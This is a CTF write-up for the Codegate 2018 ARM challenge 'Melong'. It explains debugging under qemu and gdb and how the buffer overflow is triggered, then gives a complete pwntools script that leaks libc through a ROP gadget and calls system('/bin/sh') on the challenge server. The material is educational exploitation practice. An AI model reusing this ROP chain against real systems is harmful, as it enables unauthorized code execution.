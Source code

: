 ```yaml
---
title:        "Codegate CTF 2018"

# jekyll-seo-tag

author:       "Ne0"

---
```

Yesterday I played the Codegate CTF 2018 with Lotus-Eur3kA, a combination with Blue-Lotus and Eur3kA. Unluckily, there are several challenges we didn't solve in time and finally we got rank 21.

## Melong
The challenge is not difficult, but it is the first arm exploit I solved in a CTF game. So I will try to make this wp more detailed.The challenge can be download in here.

The exploit in arm is almost the same with that in X86. All we need to know is how arm makes function calls.  
To be short, arm use r0-r3 to store the first 4 argument, with r0 storing the first and r4 the fourth. And no jmp or call instruction in arm, but b or bl instead.

### Program info

Let's take a look in the program
```bash
[*] '/home/ne0/Desktop/codegate/melong/melong'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```
### Debug

To run the program, I use qemu-arm:
```bash
qemu-arm  -g 1234 -L /usr/arm-linux-gnueabi ./melong
```
- -L dir: dir is /path/to/lib_for_arm
- -g port: for remote debug

At another console, run the gdb for arm:
```bash
arm-none-eabi-gdb melong
```
In gdb, we run:
```bash
gdb-peda$ target remote localhost:1234
Remote debugging using localhost:1234
warning: A handler for the OS ABI "GNU/Linux" is not built into this configuration
of GDB.  Attempting to continue with the default armv5t settings.

Warning: not running or target is remote
Save/restore a working gdb session to file as a script
Usage:
    session save [filename]
    session restore [filename]

0xf67ceb00 in ?? ()
gdb-peda$ c
Continuing.
```

Then we see the program running:
```bash
➜  melong qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./melong 
Welcome to the BPSEC gym

1. Check your bmi
2. Exercise
3. Register personal training
4. Write daily record
5. Have some health menu
6. Out of the gym

Type the number:
```
### Exploit

The logic in the program is easy, so I leave it out. To trigger buffer overflow, all you need to to is:
1. check bmi once
2. Register training, enter -1
3. write dairy with unlimited length,thus overflow.

To find useful gadget, I use ROPgadget, and the only gadget I use is
```armasm
0x00011bbc : pop {r0, pc}
```

The flow is the same as X86:
- Leak the libc address
- Return to main or somewhere else to trigger buffer overflow again
- Get shell

To leak, we set r0=puts got, pc=puts plt.
After puts is called, the program will fetch the eip from stack, so we can fill it with the address we want to return.
Thus the finall exp is

```python
from pwn import *
remote_addr="ch41l3ng3s.codegate.kr"
remote_port=1199

libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')
p=remote(remote_addr,remote_port)

def go(payload):
    choice(1)
    sla('Your height(meters) : ','1')
    sla('Your weight(kilograms) : ','1')
    choice(3)
    sla('take personal training?\n','-1')
    choice(4)
    sl(payload)
    choice(6)
    rl()
 
def hack():
    pop_r0=0x00011bbc
    main=0x110CC
    puts_plt=0x0104A8
    puts_got=0x2301c
    payload='A'*84+p32(pop_r0)+p32(puts_got)+p32(puts_plt)
    payload+=p32(main)*8
    go(payload)
    libc.address=u32(p.recv(4))-libc.symbols['puts']
    lg("LIBc",libc.address)
    payload='A'*84+p32(pop_r0)+p32(libc.search('/bin/sh').next())+p32(libc.symbols['system'])
    go(payload)
    p.interactive()

hack()
```

By the way, the libc is not provided in the attachment. But the libc in the server happens to match my qemu libc. So I solved it without having to find the correct libc

## Zoo
To be continued....
